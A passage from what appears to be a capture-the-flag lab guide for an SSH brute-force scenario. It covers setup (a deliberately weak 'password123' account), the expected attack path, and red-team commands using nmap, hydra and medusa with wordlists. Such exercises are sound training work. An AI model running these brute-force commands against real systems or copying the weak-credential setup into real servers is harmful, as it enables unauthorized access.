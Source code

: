 ```bash
echo "admin:$(openssl rand -base64 32)" | sudo chpasswd

sudo useradd -m -s /bin/bash backup
echo "backup:$(openssl rand -base64 32)" | sudo chpasswd

echo "[+] SSH Brute Force scenario deployed!"
echo "[+] Target: SSH service on port 22"
echo "[+] Vulnerable user: ctfuser"
echo "[+] Password: password123"
echo "[+] Flag location: /home/ctfuser/flag.txt"
```

### Manual Setup Steps
1. Install OpenSSH server: `sudo apt-get install openssh-server`
2. Create user `ctfuser` with password `password123`
3. Place flag in `/home/ctfuser/flag.txt`
4. Configure SSH to allow password authentication
5. Start SSH service

## Attack Methodology

### Expected Attack Path
1. **Reconnaissance**: Port scan discovers SSH service
2. **User Enumeration**: Attempt to identify valid usernames
3. **Brute Force Attack**: 
   - Manual password attempts
   - Automated brute force with hydra/medusa
4. **Flag Retrieval**: Login and retrieve flag

### Key Commands Red Team Will Use
```bash
# Port scanning
nmap -sV -p 22 <target_ip>

# SSH user enumeration
ssh <target_ip> -l root
ssh <target_ip> -l admin
ssh <target_ip> -l user

# Manual brute force attempts
ssh ctfuser@<target_ip>
# Try common passwords: password, 123456, password123, etc.

# Automated brute force
hydra -l ctfuser -P /usr/share/wordlists/rockyou.txt ssh://<target_ip>
medusa -h <target_ip> -u ctfuser -P /usr/share/wordlists/common-passwords.txt -M ssh

# Flag retrieval after successful login
ssh ctfuser@<target_ip>
cat ~/flag.txt
```
